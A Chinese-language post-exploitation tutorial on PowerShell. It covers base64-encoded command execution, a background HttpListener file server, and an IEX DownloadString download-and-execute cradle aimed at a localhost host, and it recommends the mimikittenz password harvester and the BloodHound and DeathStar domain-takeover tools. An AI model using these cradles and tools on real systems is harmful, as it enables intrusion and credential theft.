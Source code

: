 # Powershell(12)-实例使用场景

> 本篇为Powershell攻击指南——黑客后渗透之道系列之实战篇，主要介绍的一些实用的利用方式与利用场景和一些实用工具。

在实际的渗透环境中我们利用Powershell的方式无非两种：

1. 使用编码的方式对Powershell命令进行编码之后运行
2. 远程下载Powershell代码之后直接运行

两种方式各有利弊，第一种比较方便直接编码即可执行，第二种需要到一台拥有公网IP的机器，那么在实际的渗透环境中如何选择就得看具体场景了。下面看看两种实例：

## 通过编码的方式执行
我们做一个最简单的例子:

使用编码的方式执行`whoami`命令，我们首先使用下面的命令来进行编码

```powershell
$command = "whoami" 
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
$encodedCommand = [Convert]::ToBase64String($bytes) 
echo $encodedCommand
```
这串代码执行完之后就会打印出编码结果，之后直接执行即可`powershell.exe -EncodedCommand $encodedCommand
`

完整过程如下:
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/1.png)
## 搭建小型HTTP服务器
> Powershell搭建HTTP服务器在真实的渗透环境中使用率是较高的，比如说我们需要直接的Get一个文件而使用SMB或者FTP是不推荐的，动静太大也较难搭建，而使用HTTP则没有这样的困难，也可以搭建在内网使用Powershell脚本的服务器。
> 
> 那么很多人会说Python就好了啊，`-m SimpleHTTPServer`就好了，但是对于Windows操作系统并没有那么的Python环境供你使用，我们需要的是最少的操作做最多的事情，利用Windows自带的软件或文件是我们的最佳选择，所以Powershell是我们的不二之选


### HTTPListener-API
那么搭建HTTP服务器也是调用了API，使用到了.Net的API---HttpListener，我们只需要像这样调用`New-Object Net.HttpListener`那么我们就可以得到一个.Net对象，下面我们直接看看代码：

```powershell
# This script will execute in background
start-job { 
    $p="c:\temp\"
    # $p = Get-Location 可以获取当前用户的目录，如果这样使用后面的$p改为$p.path
    $H=New-Object Net.HttpListener
    $H.Prefixes.Add("http://+:8889/")
    $H.Start()
    While ($H.IsListening) {
        $HC=$H.GetContext()
        $HR=$HC.Response
        $HR.Headers.Add("Content-Type","text/plain")

        $file=Join-Path $p ($HC.Request).RawUrl
        $text=[IO.File]::ReadAllText($file)
        $text=[Text.Encoding]::UTF8.GetBytes($text)
        
        $HR.ContentLength64 = $text.Length
        $HR.OutputStream.Write($text,0,$text.Length)
        $HR.Close()
    }
    $H.Stop()
}
```

那么代码也不长，直接运行就能在后台运行，Powershell会返回一个任务ID
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/http/1.png)

如果我们需要停止这个HTTP，只需要Stop即可：
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/http/2.png)

那么我们只需要修改我们的目录即可对相应的目录进行访问与下载，非常方便。

### 远程加载执行

直接看看命令:
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/httptest.ps1');"`

我们只需要在本地开一个Web服务，那么这就很好开了：通过Python或者其他的方式都可以，自己的机器怎么修改都可以。之后通过上面的命令下载你的脚本即可，这样就可以下载并执行了。那么还可以和上面编码的方式并用，就能更好的执行了。

### 实例工具

下面推荐一些比较好的工具，类似Powersploit或者nishang有的内容就不提及了，就提几个经常使用的工具。

#### mimikittenz
第一个是[mimikittenz](https://github.com/putterpanda/mimikittenz)这个脚本能够获取到用户级的密码，比如Deopbox，jira，Gmail等等，对于真实的渗透环境来说，需求还是挺大的，下面是这个脚本提供的运行截图。

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/2.png)

#### BloodHound
[链接](https://github.com/BloodHoundAD/BloodHound)
中文名猎犬，先说说能干嘛吧：内网信息域内关系与细节整理，这个工具也是作为DEFCON 24的免费开源工具发布，主要使用了图论的一些知识，推荐学习。

#### DeathStar
[链接](https://github.com/byt3bl33d3r/DeathStar)
中文名死星，一看名字就知道是个StarWar迷:)，也能看出他的威力效果，下面是官方一张gif使用效果
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/3.gif)

这款工具需要配合Empire的API，下面[链接](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html)是作者的教程，大家可以自行研究。


### 开发工具
工欲善其事，必先利其器。这里提一下Ps的开发工具供大家选择。

#### ISE
那么最基础的是Ps的ISE，这个工具是自带的，通过下面的方式打开
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/4.png)

打开的界面如下：
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/5.png)
语法高亮，外加一个便于复制和粘贴操作的图形化控制台，可以说是非常的方便。

#### PowerShell Studio & Visual Studio

但如果你是一个需要更专业的开发环境，这款工具肯定能帮到你，官网在[这里](https://www.sapien.com/software/powershell_studio)，简单看看他的一张截图:
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/op/6.png)

可以看到软件是非常专业的，非常的方便编写与管理你的代码。

[Visual Studio](https://marketplace.visualstudio.com/items?itemName=AdamRDriscoll.PowerShellToolsforVisualStudio2015)同意也能达到这样的效果，那么大家可以自行选择。


